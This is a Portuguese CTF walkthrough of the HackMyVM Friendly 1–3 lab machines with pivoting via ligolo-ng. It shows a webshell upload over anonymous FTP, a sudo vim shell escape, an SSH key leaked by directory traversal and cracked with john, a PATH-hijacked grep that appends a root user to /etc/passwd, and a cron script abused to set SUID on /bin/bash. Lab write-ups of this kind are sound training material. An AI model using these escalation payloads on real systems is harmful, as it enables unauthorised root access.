

{: w="100" h="100" .left}

---
# **CTF - Friendly 1, 2 e 3 com Pivoting**
---
---  

**Ir para:**  
 [Friendly 1](/posts/HMV-friendly123/#friendly-1)  
 [Friendly 2](/posts/HMV-friendly123/#friendly-2-172181005)    
 [Friendly 3](/posts/HMV-friendly123/#friendly-3-100215)  

## **Criação do ambiente**

Criando a rede no virtualbox.  
Aperte CTRL+H e crie essas duas redes.

Em configurações/rede da friendly 1:  
Adaptador 1 selecione bridge para a máquina pegar o ip de sua rede.
  

Adaptador 2 selecione NAT, em nome selecione a rede net2-172  
Coloque Permitir Tudo  


Repita o procedimento nas outras máquinas da seguinte forma:  
`Friendly 2:`  
Adaptador 1 - NAT net2-172  
Adaptador 2 - NAT net1-10  

`Friendly 3:`  
Adaptador 1 -NAT net1-10  

## Friendly 1
## **Enumeração**

### nmap

```shell
─ sudo nmap -sS -Pn -sV --stats-every 5 -min-rate 7000 -p- -oA nmap 192.168.15.4 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 19:07 -03
Nmap scan report for friendly (192.168.15.4)
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.35 seconds
```
{: .nolineno }

### ftp

```shell
─ ftp 192.168.15.4 
Connected to 192.168.15.4.
220 ProFTPD Server (friendly) [::ffff:192.168.15.4]
Name (192.168.15.4:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14239|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
226 Transfer complete
ftp> get index.html
```
{: .nolineno }

Apenas a página inicial do apache, isso pode indicar que estamos na raiz do apache e enviar uma webshell.  
Enviado cmd.php

```shell
ftp> send cmd.php
local: cmd.php remote: cmd.php
229 Entering Extended Passive Mode (|||36700|)
150 Opening BINARY mode data connection for cmd.php
100% |*******************************************************|    40      265.73 KiB/s    00:00 ETA
226 Transfer complete
40 bytes sent in 00:00 (39.25 KiB/s)
ftp> 
```
{: .nolineno }
## **Acesso/Foothold**


Executado comando pra reverse shell com python.


### User Flag

```shell
cd /home/RiJaba1
www-data@friendly:/home/RiJaba1$ ls
ls
CTF  Private  YouTube  user.txt
www-data@friendly:/home/RiJaba1$ cat user.txt
cat user.txt
b8cff8c9008e1cxxxxxx937b4475acd6
www-data@friendly:/home/RiJaba1$ 
```
{: .nolineno }

Arquivos na pasta home

```shell
www-data@friendly:/home/RiJaba1$ cd Private
cd Private
www-data@friendly:/home/RiJaba1/Private$ cat targets.txt
cat targets.txt
U2hlbGxEcmVkZAp4ZXJvc2VjCnNNTApib3lyYXMyMDAK
www-data@friendly:/home/RiJaba1/Private$ base64 -d targets.txt
base64 -d targets.txt
ShellDredd
xerosec
sML
boyras200
www-data@friendly:/home/RiJaba1/Private$ cd ../YouTube
cd ../YouTube
www-data@friendly:/home/RiJaba1/YouTube$ cat ideas.txt
cat ideas.txt
What're you reading? Have you hacked me?
www-data@friendly:/home/RiJaba1/YouTube$ 
```
{: .nolineno }

`sudo -l` possível executar vim sem senha
<https://gtfobins.github.io/gtfobins/vim/#sudo>
```shell
sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
www-data@friendly:/home/RiJaba1/YouTube$ sudo vim -c ':!/bin/bash'
sudo vim -c ':!/bin/bash'
```
{: .nolineno }


### root flag


ip a  
máquina possui outra rede 172.18.100.0/24

```shell
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:a2:9f:c0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.15.4/24 brd 192.168.15.255 scope global dynamic enp0s3
       valid_lft 11783sec preferred_lft 11783sec
    inet6 2804:7f0:6941:155d:a00:27ff:fea2:9fc0/64 scope global dynamic mngtmpaddr 
       valid_lft 43197sec preferred_lft 43197sec
    inet6 fe80::a00:27ff:fea2:9fc0/64 scope link 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:5b:88:7e brd ff:ff:ff:ff:ff:ff
    inet 172.18.100.4/24 brd 172.18.100.255 scope global dynamic enp0s8
       valid_lft 432sec preferred_lft 432sec
    inet6 fe80::a00:27ff:fe5b:887e/64 scope link 
       valid_lft forever preferred_lft forever
```
{: .nolineno }

Usando ligolo pra fazer pivoting e acessar a outra rede
<https://github.com/Nicocha30/ligolo-ng>


## **Friendly 2 (172.18.100.5)**
## **Enumeração**
### nmap
```shell

╰─ sudo nmap -sS -Pn -sV --stats-every 5 -min-rate 1000 -p- -oA nmap 172.18.100.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 20:01 -03
Nmap scan report for 172.18.100.5
Host is up (0.14s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.02 seconds
```
{: .nolineno }

port forward pra acessar a porta `80` de `172.18.100.5`  


Site porta 80 de 172.18.100.5


### gobuster

```shell
╰─ gobuster dir -u http://172.18.100.4:8080 -t 100 -e -w /usr/share/wordlists/dirb/big.txt -x txt,html -r --no-error -e
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.100.4:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://172.18.100.4:8080/.htpasswd.html       (Status: 403) [Size: 279]
http://172.18.100.4:8080/.htpasswd.txt        (Status: 403) [Size: 279]
http://172.18.100.4:8080/.htaccess            (Status: 403) [Size: 279]
http://172.18.100.4:8080/.htpasswd            (Status: 403) [Size: 279]
http://172.18.100.4:8080/.htaccess.html       (Status: 403) [Size: 279]
http://172.18.100.4:8080/.htaccess.txt        (Status: 403) [Size: 279]
http://172.18.100.4:8080/assets               (Status: 200) [Size: 1549]
http://172.18.100.4:8080/index.html           (Status: 200) [Size: 2698]
http://172.18.100.4:8080/server-status        (Status: 403) [Size: 279]
http://172.18.100.4:8080/tools                (Status: 200) [Size: 813]
Progress: 61407 / 61410 (100.00%)
===============================================================
Finished
===============================================================
```
{: .nolineno }

http://172.18.100.4:8080/tools


Código fonte  


Acessando o php


Funcionando com as outras imagens tbm.

Box vulnerável a `directory traversal`


Lendo chave ssh do usuário gh0st


## **Acesso/Foothold**

Key adicionada ao arquivo sshghost  
Criando port forward pra ssh

```shell
[Agent : root@friendly] » listener_add --addr 172.18.100.4:222 --to 172.18.100.5:22 --tcp
INFO[2578] Listener 1 created on remote agent!          
[Agent : root@friendly] »  
```
{: .nolineno }

Ao tentar logar a chave tem uma senha, enviando ela pro john

```shell
╭─      ~/hmv/friendly               
╰─ ssh2john sshghost > hashssh.txt
╭─      ~/hmv/friendly         
╰─ john hashssh.txt --wordlist=/usr/share/wordlists/rockyou.txt         
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
celtic           (sshghost)     
1g 0:00:00:22 DONE (2024-02-24 21:11) 0.04370g/s 11.18p/s 11.18c/s 11.18C/s 888888..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }

### User Flag
logado via ssh

```shell
gh0st@friendly2:~$ cat user.txt  
ab0366431e2dxxxxxx3cf34272e3d14bd
```
{: .nolineno }

sudo -l

```shell
gh0st@friendly2:~$ sudo -l
Matching Defaults entries for gh0st on friendly2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gh0st may run the following commands on friendly2:
    (ALL : ALL) SETENV: NOPASSWD: /opt/security.sh
gh0st@friendly2:~$ 
```
{: .nolineno }

o script chama o grep, possivelmente fazer um grep falso e alterar o PATH

```shell
gh0st@friendly2:~$ cat /opt/security.sh 
#!/bin/bash

echo "Enter the string to encode:"
read string

# Validate that the string is no longer than 20 characters
if [[ ${#string} -gt 20 ]]; then
  echo "The string cannot be longer than 20 characters."
  exit 1
fi

# Validate that the string does not contain special characters
if echo "$string" | grep -q '[^[:alnum:] ]'; then
  echo "The string cannot contain special characters."
  exit 1
fi

sus1='A-Za-z'
sus2='N-ZA-Mn-za-m'

encoded_string=$(echo "$string" | tr $sus1 $sus2)

echo "Original string: $string"
echo "Encoded string: $encoded_string"
```
{: .nolineno }

Criado script/arquivo grep na tmp  
script para add usuário no passwd

```bash
#!/bin/bash
echo 'pentest:$6$z8cdUIDN1PCXgR/f$JZ3zd3Y45sd/RN6nDigDf.KZorSCLs9OgfuYnDWxOg0/tyCAOQrPC4LbNpLT8/USVe2O9y6KgXR4kOYzQQqZ61:0:0:root:/root:/bin/bash' >> /etc/passwd
```
{: .nolineno }

```shell
gh0st@friendly2:~$ cd /tmp/
gh0st@friendly2:/tmp$ nano grep
gh0st@friendly2:/tmp$ chmod +x grep 
gh0st@friendly2:/tmp$ 
```
{: .nolineno }


### root flag

```shell
root@friendly2:~## cat /root/root.txt
cat /root/root.txt
Not yet! Try to find root.txt.


Hint: ...

root@friendly2:~# find / -name "..."
/...
root@friendly2:~# cd /...
root@friendly2:/...# ls
ebbg.txt
root@friendly2:/...# cat ebbg.txt 
It's codified, look the cipher:

98199n723q0s4xxxxs39r33685q8pnoq
```
{: .nolineno }

Pode decodificar dessa forma ou seguir abaixo:  
String ROT13
`echo "stringaqui" | tr 'A-Za-z' 'N-ZA-Mn-za-m'`

Copiei e alterei o script pra essa forma

```bash
#!/bin/bash

echo "Enter the string to encode:"
read string

# Validate that the string is no longer than 20 characters
if [[ ${#string} -gt 200 ]]; then
  echo "The string cannot be longer than 20 characters."
  exit 1
fi


sus1='A-Za-z'
sus2='N-ZA-Mn-za-m'

encoded_string=$(echo "$string" | tr $sus1 $sus2)

echo "Original string: $string"
echo "Encoded string: $encoded_string"

```
{: .nolineno }
Decodificando a String com script

```shell
Hint: numbers are not codified
root@friendly2:/...# cp /opt/security.sh sec.sh
root@friendly2:/...# nano sec.sh 
root@friendly2:/...# chmod +x sec.sh 
root@friendly2:/...# ./sec.sh 
Enter the string to encode:
98199n723q0s44dddd39r33685q8pnoq
The string cannot contain special characters.
root@friendly2:/...# nano sec.sh 
root@friendly2:/...# ./sec.sh 
Enter the string to encode:
98199n723q0s44dddd39r33685q8pnoq
Original string: 98199n723q0s44dddd39r33685q8pnoq
Encoded string: 98199a723d0f4aaaaf39e33685d8cabd
root@friendly2:/...# 
```
{: .nolineno }

## **Friendly 3 (10.0.2.15)**

Executado agent do ligolo na friendly 2

No kali tem adicionar uma nova interface ligolo

`sudo ip tuntap add user kalimode tun ligolo2`  
`sudo ip link set ligolo2 up`  
`sudo ip route add 10.0.2.0/24 dev ligolo2`  
no ligolo proxy: `start --tun ligolo2`  

### nmap 
```shell

╰─ sudo nmap -sS -Pn -sV --stats-every 5 -p- -oA nmap 10.0.2.15 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 22:34 -03
Nmap scan report for 10.0.2.15
Host is up (0.062s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno }

Port forward com ligolo para 80 e acessar o site


`sysadmin` e `juan` possíveis usuários

executado hydra no ftp após port forward com ligolo


Muitos arquivos no FTP nada de util.

## **Acesso/Foothold**
### user flag

Testado usar credenciais via SSH  
Conectado com sucesso


Na pasta encontrado esse script que é executado como root.

```shell
juan@friendly3:/opt$ cat check_for_install.sh 
#!/bin/bash


/usr/bin/curl "http://127.0.0.1/9842734723948024.bash" > /tmp/a.bash

chmod +x /tmp/a.bash
chmod +r /tmp/a.bash
chmod +w /tmp/a.bash

/bin/bash /tmp/a.bash

rm -rf /tmp/a.bash
juan@friendly3:/opt$ curl http://127.0.0.1/9842734723948024.bash
#test
juan@friendly3:/opt$ 
juan@friendly3:/opt$ find / -name 9842734723948024.bash 2>/dev/null 
/var/www/html/9842734723948024.bash
juan@friendly3:/opt$ ls -la /var/www/html/9842734723948024.bash
-rw-r--r-- 1 root root 6 Jun 25  2023 /var/www/html/9842734723948024.bash
```
{: .nolineno }
Usando pspy pra saber se esta rodando em algo o script
<https://github.com/DominicBreuker/pspy>  



É executado via cron a cada 1 minuto

Criei o script `a.bash` na `/tmp`

```bash
#!/bin/bash
chmod u+s /bin/bash
```

o script adiciona SUID ao bash o que permiti ser executado como root com nosso usuário.  
Aguardei o script ser executado e deu certo.
### root flag


**Conhecimento adquiridos:**
- Ferramenta pspy
- Uso do ligolo
- directory traversal